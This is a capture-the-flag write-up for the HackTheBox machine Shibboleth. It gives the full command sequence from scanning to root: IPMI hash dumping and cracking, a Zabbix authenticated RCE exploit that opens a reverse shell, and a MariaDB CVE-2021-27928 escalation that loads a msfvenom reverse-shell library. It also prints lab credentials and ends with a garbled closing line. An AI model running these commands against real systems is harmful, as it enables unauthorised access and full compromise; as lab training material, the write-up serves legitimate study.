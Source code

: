 ```yaml
---
title: Shibboleth - Medium HTB
date: 2024-01-26 10:11:53 +/-0800
categories: [writeup, hackthebox]
writeup: :title
permalink: /shibboleth
tags: [htb, writeup, medium, Zabbix, CVE, MYSQL, 4nh4ck1ne]     # TAG names should always be lowercase
---
```


# Shibboleth

![Untitled](assets/Shibboleth/LOGO.png)

## **Scanning :**

Lets begin with a nmap to see what ports is opens on the target system : 

```python
> nmap -sS -sV -sC -T4 10.10.11.124 -Pn

#output
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb
```

Add the machine hostname to your `/etc/hosts` file: 

```bash
echo "10.10.11.124 shibboleth.htb" >> /etc/hosts
```

## **Enumerate the web service :**

use whatweb to see the technologie used by the web site : 

```bash
> whatweb -a 3 shibboleth.htb

#output 
http://shibboleth.htb [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[contact@example.com,info@example.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.124], Lightbox, PoweredBy[enterprise], Script, Title[FlexStart Bootstrap Template - Index]
```

Lets lauch a gobuster bf to enumerate the web page :

```bash
> gobuster dir -u http://shibboleth.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t50

#output
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/]
/server-status        (Status: 403) [Size: 279]
```

we found nothing interesting so we can try to bf the vhosts to find another web service.

Enumerate the vhost with fuff : 

```bash
> ffuf -u http://shibboleth.htb/ -H "Host: FUZZ.shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/namelist.txt -fw 18

#output 
[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 290ms]
    * FUZZ: monitoring

[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 292ms]
    * FUZZ: monitor

[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 46ms]
    * FUZZ: zabbix
```

all vhosts redirect to the same page so you can add just one of the 3 to your/etc/hosts, and one comes across a login page of the zabbix software which is a monitoring software for computer park: 

![Untitled](assets/Shibboleth/login.png)

## **Enumerate and exploit zabbix :**

first I want to find the version of zabbix, I find on github repo with tools:

[GitHub - freeworkaz/zabbix_test: this is some scripts for pentesting zabbix server](https://github.com/freeworkaz/zabbix_test)

You must use the zabbix_version_detect.py script here the code after midification:

```python
"""
This script is for testing zabbix version
by version of the docs on the logon page
"""

import urllib2  
import re
from bs4 import BeautifulSoup  

zab_page='http://monitor.shibboleth.htb/index.php' 
page=urllib2.urlopen(zab_page)
soup = BeautifulSoup(page, 'html.parser')
for link in soup.findAll('a', attrs={'href': re.compile("documentation")}):
    version=link.get('href')

parts=re.split('/', version)

a=''.join (parts[4:5])
print "zabbix version is",a
```

run it see the version : 

```python
> python2 zabbix_version_detect.py 
zabbix version is 5.0
```

Lets rescan the target but that time with a udp scan : 

```python
> nmap -sU -T4 -Pn 10.10.11.124 -n --max-retries 1

623/udp open  asf-rmcp
```

after looking for information on port 623 I came across the [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi) page that my well informed on the subject.

Lets see the version of IPMI : 

```python
> nmap -sU --script ipmi-version -p 623 10.10.11.124

623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0
```

lets dump the admin hash with [ipmipwner](https://github.com/c0rnf13ld/ipmiPwner) : 

```python
> git clone https://github.com/c0rnf13ld/ipmiPwner

#install requirements : 
> ./requirements.sh

#dump admin hash
>./ipmipwner.py --host 10.10.11.124

[*] Checking if port 623 for host 10.10.11.124 is active
[*] Using the list of users that the script has by default
[*] Brute Forcing
[*] Number of retries: 2
[*] The username: Administrator is valid                                                                                    
[*] The hash for user: Administrator
   \_ $rakp$a4a3a2a002030000ebc053f6d5ef225d169dc8006bde6c16e8e71d82f8ff1cd441422c4f763f3348a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$a8e600ba41d6a1e70d9636a223af3374fb287b7b
```

Use john to crack the hash : 

```python
> john zabbix_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (?)     
1g 0:00:00:01 DONE (2023-12-24 11:30) 0.7462g/s 5526Kp/s 5526Kc/s 5526KC/s iluve.p..ilovejesus789
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And connect your self on the app : 

![Untitled](assets/Shibboleth/pannel_admin.png)

the next step is too gain reverse shell, I found a exploit who do that : 

https://www.exploit-db.com/exploits/50816

Downlaod it with searchsploit : `searchsploit -m 50816.py`

Run it and gain your reverse shell : 

```python
#run listener : 
> pwncat-cs :9001

#run the exploit you should by patient...
> python 50816.py http://monitor.shibboleth.htb/ "Administrator" "ilovepumkinpie1" 10.10.16.9 9001

[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/                                                                                                                                                                                 
[+] the payload has been Uploaded Successfully                                                                                                                                                                                              
[+] you should find it at http://monitor.shibboleth.htb//items.php?form=update&hostid=10084&itemid=33618                                                                                                                                    
[+] set the listener at 9002 please...                                                                                                                                                                                                      
[?] note : it takes up to +1 min so be patient :)                                                                                                                                                                                           
[+] got a shell ? [y]es/[N]o: y                                                                                                                                                                                                             
Nice !
```

You can can move lateraly on the user ipmi-svc, for that re use the password of the administrator hash. 

## **Privileges Escalation Exploit mysql CVE:**

After lot of enumeration we found the password of the db stored in the `/etc/zabbix/zabbix_server.conf`

```python
### Option: DBUser
#       Database user.
#
# Mandatory: no
# Default:
# DBUser=

DBUser=zabbix

### Option: DBPassword
#       Database password.
#       Comment this line if no password is used.
#
# Mandatory: no
# Default:
DBPassword=bloooarskybluh
```

log your self on the db and start the enumeration : 

```python
#view the version of mysql
select version();
```

if we look for a known vuln on the internet there is a way to increase our privileges from mysql.

[GitHub - Al1ex/CVE-2021-27928: CVE-2021-27928 MariaDB/MySQL-'wsrep provider' 命令注入漏洞](https://github.com/Al1ex/CVE-2021-27928)

So step 1 on create the payload and start listener : 

```python
> msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=1234 -f elf-so -o CVE-2021-27928.so

> nc -lnvp 1234
```

Now upload it with your pwncat session : 

```python
> upload CVE-2021-27928.so
```

Final exploit the mysql db : 

```python
#mysql shell 
> SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
```

look your listner: 

![Untitled](assets/Shibboleth/root.png)

original deaths from the beginning to the end I hope she will serve me for Zephyr ! 😁

